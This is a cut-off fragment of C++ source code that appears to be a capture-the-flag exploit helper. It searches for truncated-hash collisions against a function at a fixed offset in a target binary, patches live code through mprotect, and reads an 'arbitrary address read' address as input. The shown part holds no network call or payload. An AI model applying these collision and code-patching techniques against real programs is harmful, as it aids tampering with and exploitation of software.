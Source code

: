 ```cpp

void find_collision(void);

using hash_fn_t = uint64_t(*)(char*, size_t);
static constexpr uint64_t MASK43 = ((1ULL<<43) - 1);
static constexpr uintptr_t HASH_RVA = 0x3960;

static size_t PREBUILD_M = (1u<<21);
static size_t MAX_LEN = 15;
static const char* ALPH = "abcdefghijklmnopqrstuvwxyz1234567890";

static std::atomic<bool> started{false};

static std::string to_hex(const std::string& s){
    static const char* hex = "0123456789abcdef";
    std::string out; out.reserve(s.size()*2);
    for (unsigned char c: s){ out.push_back(hex[c>>4]); out.push_back(hex[c&0xF]); }
    return out;
}

static std::mt19937_64& rng() {
    static thread_local std::mt19937_64 r{std::random_device{}()};
    return r;
}

static std::string rand_token(size_t max_len = MAX_LEN) {
    std::uniform_int_distribution<size_t> len_dist(9, max_len);
    std::uniform_int_distribution<size_t> ch_dist(0, strlen(ALPH) - 1);
    size_t L = len_dist(rng());
    std::string s; s.reserve(L);
    for (size_t i=0;i<L;i++) s.push_back(ALPH[ch_dist(rng())]);
    return s;
}

static inline uint64_t H(hash_fn_t f, const char* p, size_t n) {
    return f((char*)p, n) & MASK43;
}

static void patch_imm64(void *where, uint64_t value) {
    long ps = sysconf(_SC_PAGESIZE);
    void *page = (void*)((uintptr_t)where & ~(uintptr_t)(ps - 1));

    if (mprotect(page, ps, PROT_READ | PROT_WRITE | PROT_EXEC) != 0) {
        perror("mprotect");
        return;
    }
    *(uint64_t*)where = value;
    mprotect(page, ps, PROT_READ | PROT_EXEC);
}

void find_collision(void) {
    hash_fn_t HF = (hash_fn_t)(main_base + HASH_RVA);

    uint64_t aar_addr = 0;
    printf("AAR address: ");
    scanf("%ld", &aar_addr);

    const char* test = "note-none-flag;";
    uint64_t hash = H(HF, test, strlen(test));

    const char* test1 = "user-mini-chip;";
    uint64_t hash1 = H(HF, test1, strlen(test1));
    fprintf(stderr, "[shim] test-hash : %lx\n", (unsigned long)hash);
```
